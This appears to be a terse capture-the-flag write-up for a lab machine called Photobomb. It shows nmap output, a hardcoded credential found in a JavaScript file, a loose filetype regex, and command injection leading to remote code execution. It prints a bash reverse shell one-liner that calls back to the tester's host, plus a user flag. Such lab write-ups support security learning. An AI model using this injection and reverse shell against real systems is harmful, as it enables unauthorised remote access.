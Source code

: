 # Enumeration
IP: 10.10.11.182
## Nmap
```bash
nmap -sC -sV -oA nmap/photobomb 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.0099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80
Redirect to `photobomb.htb`. Adding to `/etc/hosts`

`/printer` page when clicking on the link.

Trying to get a random page give a sinatra error.
```bash
Try this:
get '/ihoewroweihr' do
  "Hello World"
end
```

Try an lfi. It removes the `../`.

Looking at the code there is a js file which includes pwd.
`http://pH0t0:b0Mb!@photobomb.htb/printer`

This link signs us in.

# Printer page
Playing with the request shows that there is lose regex on the filetype. 
```ruby
if !filetype.match(/^(png|jpg)/)
```

Things to test for.

injection, try file include. Didn't work. RCE? yep

## RCE
`bash -c 'bash -i >& /dev/tcp/10.10.14.67/9001 0>&1'`

This works!

User flag:
```text
57749eac104584bf2fa7cf68ae8dbbed
```
